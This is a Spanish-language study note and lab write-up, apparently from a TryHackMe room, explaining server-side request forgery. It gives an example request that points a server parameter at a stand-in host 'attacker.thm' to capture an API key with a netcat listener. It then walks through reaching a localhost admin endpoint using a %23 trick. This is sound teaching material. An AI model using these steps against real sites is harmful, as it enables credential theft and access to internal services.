 Este tipo de vulnerabilidad ocurre cuando un atacante convence a la aplicación web de mandar las peticiones en su representación a destinaciones arbitrarias mientras tiene el control sobre los contenidos de la petición en sí misma. Las vulnerabilidades SSRF comúnmente se ocasionan donde nuestra aplicación web utiliza servicios de terceros.

Piensa, por ejemplo, en una aplicación web que usa una API externa para mandar notificaciones SMS a sus clientes. Por cada email, la app tiene que realizar una petición web al servidor proveedor de SMS para mandar el mensaje.Ya que los proveedores de mensajería cobran por el uso de mensajes, nos piden añadir una clave secreta, que te preasignan. Los servidores API de claves como tokens de autentificación te permiten que el proveedor sepa quién eres.

![[Pasted image 20251013232653.png]]

Mirando el diagrama arriba mostrado es fácil ver dónde está la vulnerabilidad. La aplicación expone el parámetro `server` a los usuarios, que define el nombre del servidor proveedor de SMS. Si un atacante quisiese, simplemente cambiaría el valor del parámetro `server` para apuntar a una máquina que ellos controlen. Como parte del mensaje, recibirían la clave API, permitiéndoles usar los servicios SMS a tu costa. Para hacerlo, sólo tendría que hace la siguiente petición a tu sitio web:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

Entonces simplemente capturarías el tráfico:

```http
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

Aunque esto no parezca amenazante, SSRF se puede usar para:

- Enumerar redes internas, incluyendo direcciones IPs y puertos.
- Abusar relaciones de confianza entre servidores y ganar acceso a servicios de otra manera restringidos.
- Interactuar con algunos servicios no-HTTP para conseguir ejecución remota de comandos (RCE).

-----------------------
<h2>Challenge</h2>
1. Accedemos a la página web:
   ![[Pasted image 20251013233709.png]]
2. Después de investigar un poco encontramos "admin area":
   ![[Pasted image 20251013233831.png]]
3. Si nos fijamos, el servidor apunta a una dirección curiosa al descargar el CV:
   ![[Pasted image 20251013234005.png]]
4. Haciendo uso de lo que hemos aprendido, vamos a intentar SSRF:
   ![[Pasted image 20251013234205.png]]
5. Y voilà:
   ![[Pasted image 20251013234231.png]]
6. Para acceder a admin podemos modificar url de la descarga del CV y meter localhost con el endpoint `admin`:
   ![[Pasted image 20251014000016.png]]
7. La flag extra es:
   ![[Pasted image 20251014000039.png]]

>[!NOTE] The `#` symbol indicates a fragment identifier in a URL, which is often used by browsers to navigate to a specific part of a webpage. When you add `%23` (the URL-encoded version of `#`), it may be tricking the server into treating it as part of the URL, allowing the request to reach the `/admin` endpoint. Without it, the server might not recognize the path correctly or could return a different response.

